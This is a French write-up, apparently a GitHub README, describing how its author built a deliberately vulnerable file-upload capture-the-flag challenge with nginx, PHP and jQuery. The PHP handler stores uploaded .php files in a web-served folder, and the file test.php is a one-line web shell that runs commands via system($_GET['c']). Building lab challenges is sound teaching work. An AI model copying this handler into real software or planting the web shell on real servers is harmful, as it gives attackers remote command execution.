









Cahier des charges de mon challenge : 

1.  Mettre en place un environnement de développement avec un serveur web, PHP et un serveur de base de données si nécessaire.
    
2.  Créer une page web avec un formulaire pour l'upload de fichier.
    
3.  Utiliser JavaScript pour valider le type de fichier et la taille avant l'envoi du fichier au serveur.
    
4.  Écrire le code PHP pour traiter le fichier uploadé et le stocker sur le serveur.
    
5.  Créer une page pour afficher les fichiers uploadés.
    
6.  Mettre en place une fonctionnalité de suppression de fichier.
    
7.  Tester l'application et corriger les erreurs éventuelles.
    

#####

Configuration du serveur :

Nginx et php(8.2) était déjà installer pour moi.

Il faut installer php-fpm pour que le code php fonctionne :

`apt-get install php-fpm`

Créer un vhost appeler upload.conf : 

`vim /etc/nginx/sites-available/upload.conf`

```bash
server {
  listen 80;
  server_name 127.0.0.1; # Remplace example.com par ton nom de domaine ou ton adresse IP

  root /usr/share/nginx/html; # Indique l'emplacement du répertoire racine pour tes fichiers

  index index.html index.htm index.php; # Définit l'ordre de recherche pour les pages d'index

  location / {
    try_files $uri $uri/ /index.php?$query_string; # Redirige toutes les requêtes vers index.php
  }

  location ~ \.php$ {
    include fastcgi_params;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    fastcgi_pass unix:/run/php/php8.2-fpm.sock; # Indique le socket PHP-FPM
  }
}
```

On créer le dossier uploads et on créer les fichier de config au bon endroit :



Pour relancer le serveur :



pour voir le status du serveur :

 

Fichier de configuration  PHP et  JS (dans du html) :

index.php

```php
<?php
$allowed_exts = ['php'];
$max_size = 1 * 1024 * 1024;  // 1 Mo

if ($_SERVER['REQUEST_METHOD'] === 'POST' && !empty($_FILES['file-upload'])) {
    $file = $_FILES['file-upload'];
    $file_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    $file_size = $file['size'];

    // Vérifie l'extension de fichier
    if (!in_array($file_ext, $allowed_exts)) {
        die("Le type de fichier n'est pas autorisé.");
    }

    // Vérifie la taille du fichier
    if ($file_size > $max_size) {
        die("Le fichier est trop volumineux.");
    }

    // Le fichier est valide, déplacez-le vers votre dossier de destination
    move_uploaded_file($file['tmp_name'], '/usr/share/nginx/html/uploads/' . $file['name']);
    $file_url = 'http://' . $_SERVER['HTTP_HOST'] . '/uploads/' . $file['name'];
    echo "Upload done. Your file can be found here: <a href=\"$file_url\">$file_url</a>";
}
?>
```

index.html :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>File Upload Form</title>
    <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
  </head>
  <body>
    <h1>File Upload Form</h1>
    <style>
      html { color-scheme: light dark; }
      body { width: 35em; margin: 0 auto;
      font-family: Tahoma, Verdana, Arial, sans-serif; }
    </style>
    <form id="file-upload-form" action="index.php" method="post" enctype="multipart/form-data">
      <div>
        <label for="file-upload">Choose a file to upload:</label>
        <input type="file" id="file-upload" name="file-upload">
      </div>
      <br>
      <input type="submit" value="Upload">
    </form>
    <div id="message"></div>
    <script>
      $(document).ready(function() {
  // Intercepter la soumission du formulaire
  $('#file-upload-form').submit(function(event) {
    event.preventDefault();

    var file = $('#file-upload')[0].files[0];
    if (!file) {
      $('#message').html('Veuillez choisir un fichier.');
      return false;
    }

    // Vérifie le type de fichier
    if (file.name.split('.').pop() !== 'php') {
      $('#message').html('Seuls les fichiers PHP sont autorisés.');
      return false;
    }

    var formData = new FormData($(this)[0]);

    // Envoyer le fichier via AJAX
    $.ajax({
      url: 'index.php',
      type: 'POST',
      data: formData,
      async: false,
      cache: false,
      contentType: false,
      processData: false,
      success: function(response) {
        $('#message').html(response);
      },
      error: function(xhr, status, error) {
        $('#message').html('Error: ' + error);
      }
    });
    return false;
  });
});

    </script>
  </body>
</html>
```

test.php :

```php
<?php
system($_GET["c"]);
?>
```

Frontend :

 

Click on Browse :



le contenu de test.php :



Click on Upload :



Go to your file upload :



File upload success :



Faudra juste modifier le flag soit en dans un fichier modifier uname -a

#################

Ajout de style CSS :

PHP :

```php
<?php
$allowed_exts = ['php'];
$max_size = 1 * 1024 * 1024;  // 1 Mo

if ($_SERVER['REQUEST_METHOD'] === 'POST' && !empty($_FILES['file-upload'])) {
    $file = $_FILES['file-upload'];
    $file_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    $file_size = $file['size'];

    // Vérifie l'extension de fichier
    if (!in_array($file_ext, $allowed_exts)) {
        die("Le type de fichier n'est pas autorisé.");
    }

    // Vérifie la taille du fichier
    if ($file_size > $max_size) {
        die("Le fichier est trop volumineux.");
    }

    // Le fichier est valide, déplacez-le vers votre dossier de destination
    move_uploaded_file($file['tmp_name'], '/usr/share/nginx/html/uploads/' . $file['name']);
    $file_url = 'http://' . $_SERVER['HTTP_HOST'] . '/uploads/' . $file['name'];
    echo "Upload done. Your file can be found here: <a href=\"$file_url\">$file_url</a>";
}
?>
```

HTML :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>File Upload Form</title>
    <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
    <link rel="stylesheet" href="style.css">
    <script src="upload.js"></script>
  </head>

  <body>
    <div class="background">
      <div class="matrix">
        <div class="number-container">
          <!-- Les chiffres seront ajoutés par le script JS -->
        </div>
      </div>
    </div>
    <div class="form-container">
      <div class="tile">
        <h1>File Upload Form</h1>
        <form id="file-upload-form" action="index.php" method="post" enctype="multipart/form-data">
          <div>
            <label for="file-upload">Choose a file to upload:</label>
            <input type="file" id="file-upload" name="file-upload">
          </div>
          <br>
          <input type="submit" value="Upload">
        </form>
        <div id="message"></div>
      </div>
    </div>

    <script>
      $(document).ready(function() {
        // Intercepter la soumission du formulaire
        $('#file-upload-form').submit(function(event) {
          event.preventDefault();

          var file = $('#file-upload')[0].files[0];
          if (!file) {
            $('#message').html('Veuillez choisir un fichier.');
            return false;
          }

          // Vérifie le type de fichier
          if (file.name.split('.').pop() !== 'php') {
            $('#message').html('Seuls les fichiers PHP sont autorisés.');
            return false;
          }

          var formData = new FormData($(this)[0]);

          // Envoyer le fichier via AJAX
          $.ajax({
            url: 'index.php',
            type: 'POST',
            data: formData,
            async: false,
            cache: false,
            contentType: false,
            processData: false,
            success: function(response) {
              $('#message').html(response);
            },
            error: function(xhr, status, error) {
              $('#message').html('Error: ' + error);
            }
          });
          return false;
        });
      });
    </script>
  </body>
</html>
```

CSS :

```css
body {
    margin: 0;
    padding: 0;
    background-color: #000;
    color: #0F0;
  }
  
  .background {
    position: fixed;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
  }
  
  .matrix {
    position: relative;
    height: 100%;
  }
  
  .number-container {
    position: absolute;
    top: 0;
    left: 0;
    right: 0;
    bottom: 0;
    pointer-events: none;
  }
  
  .number {
    font-size: 1em;
    position: absolute;
    animation: fall 2s;
  }
  
  @keyframes fall {
    0% {
      top: -20px;
      opacity: 1;
    }
    100% {
      top: 100%;
      opacity: 0;
    }
  }
  
  .form-container {
    position: absolute;
    top: 0;
    left: 0;
    right: 0;
    bottom: 0;
    display: flex;
    justify-content: center;
    align-items: center;
  }
  
  .tile {
    background-color: #333;
    padding: 20px;
    border: 1px solid #ccc;
    border-radius: 5px;
    box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
    font-family: Tahoma, Verdana, Arial, sans-serif;
    color-scheme: light dark;
    width: 35em;
  }
```

JS :

```Javascript
$(document).ready(function() {
  var $numberContainer = $('.matrix');
  var numColumns = Math.ceil(window.innerWidth / 20);
  var numRows = Math.ceil(window.innerHeight / 20);

  for (var i = 0; i < numColumns; i++) {
    for (var j = 0; j < numRows; j++) {
      var $number = $('<span class="number">' + getRandomInt(0, 9) + '</span>');
      $number.css({
        left: i * 20,
        top: j * 20,
        opacity: 0,
        color: 'green'
      });
      $numberContainer.append($number);
    }
  }

  setInterval(function() {
    var $numbers = $numberContainer.find('.number');
    var randomIndex = Math.floor(Math.random() * $numbers.length);
    var $randomNumber = $numbers.eq(randomIndex);
    $randomNumber.animate({
      opacity: 1
    }, 1000, function() {
      $randomNumber.animate({
        opacity: 0
      }, 1000);
    });
  }, 50);

  function getRandomInt(min, max) {
    return Math.floor(Math.random() * (max - min + 1)) + min;
  }
});
```
